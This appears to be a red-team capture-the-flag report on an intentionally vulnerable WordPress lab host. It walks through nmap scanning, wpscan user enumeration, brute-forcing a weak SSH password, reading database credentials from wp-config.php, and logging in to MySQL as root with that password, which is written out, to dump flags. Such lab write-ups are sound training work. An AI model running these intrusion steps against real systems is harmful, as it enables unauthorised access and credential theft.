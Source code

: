 *Red Team: Summary of Operations*

**Table of Contents**
Exposed Services


Critical Vulnerabilities

Exploitation

Exposed Services

*Nmap scan results for each machine reveal the below services and OS details:*

Command: **nmap -sV 192.168.1.110**

Output Screenshot: (IN RED TEAM FOLDER)

*Critical Vulnerabilities*

The following vulnerabilities were identified on each target:

1.**Open Ports**

2.**Wordpress**

3.**Weak User Password**

4.**Privilege Escalation**

*Explotation*

Penetrated Target 1 and retrieve the following confidential data:



*Exploit Used:*
 
**WPScan to enumerate users of the Target 1 WordPress site**

Command: 
**$ wpscan --url http://192.168.1.110 --enumerate u**


*Targeting user Michael*

1.Brute Force attack to find Michael’s password

2.User password was weak and easy to guess

**Password: michael**

Capturing Flag 1: 
**SSH as Michael went through directories and files.**

*Flag 1:* 

Commands:

1. ssh michael@192.168.1.110

2. cd var/www/html*

3. ls -la

4. cat service.html
 (Screenshot in Folder)


**Exploit Used:**


While logged in as user Michael Flag 2 was also found.

Searching through directories and files Flag 2 was found in /var/www 

Commands:

1. cd var/www

2. ls -la

3. cat flag2.txt


Flag 2 (screenshot in folder)


**Exploit Used:**

**Accessing MySQL database.**
With finding wp-config.php and gaining access to the database credentials as Michael, MySQL was used.

*Flag 3 & 4 was found in wp_posts table in the wordpress database.*

*Commands:*

**mysql --user root --password**
**(password) R@venSecurity**

**use wordpress;**

**show tables;**

**select * from wp_posts;**

Flag 3 & 4 (Screenshot in folder)
